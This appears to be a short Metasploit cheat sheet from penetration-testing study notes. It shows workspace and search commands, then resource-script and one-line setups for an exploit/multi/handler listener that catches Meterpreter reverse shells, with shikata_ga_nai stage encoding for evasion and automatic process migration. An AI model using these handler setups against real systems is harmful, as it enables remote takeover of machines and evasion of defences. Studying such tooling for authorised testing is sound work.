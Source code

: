 ### Workspace creation

```bash
msf > workspace -a [name_of_workspace]
```

### MSF search engine

```bash
msf > search type:auxiliary Apache
msf > search type:auxiliary name:smb
```

### Show categories

```bash
msf6 > show -h
[*] Valid parameters for the "show" command are: all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options
[*] Additional module-specific parameters are: missing, advanced, evasion, targets, actions
msf6 > show payloads
```

### Open MSF with custom settings (from file)

Script file:

```shell
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.11.0.4
set LPORT 443
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
exploit -j -z
```

Start up command:

```bash
kali@kali:~$ sudo msfconsole -r setup.rc
```

### Open MSF with custom settings (in-line)

```bash
kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;\
> set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
> set LHOST 10.11.0.4;\
> set LPORT 443;\
> run"
PAYLOAD => linux/x86/meterpreter/reverse_tcp
LHOST => 10.11.0.4
LPORT => 443
[*] Started reverse TCP handler on 10.11.0.4:443
```
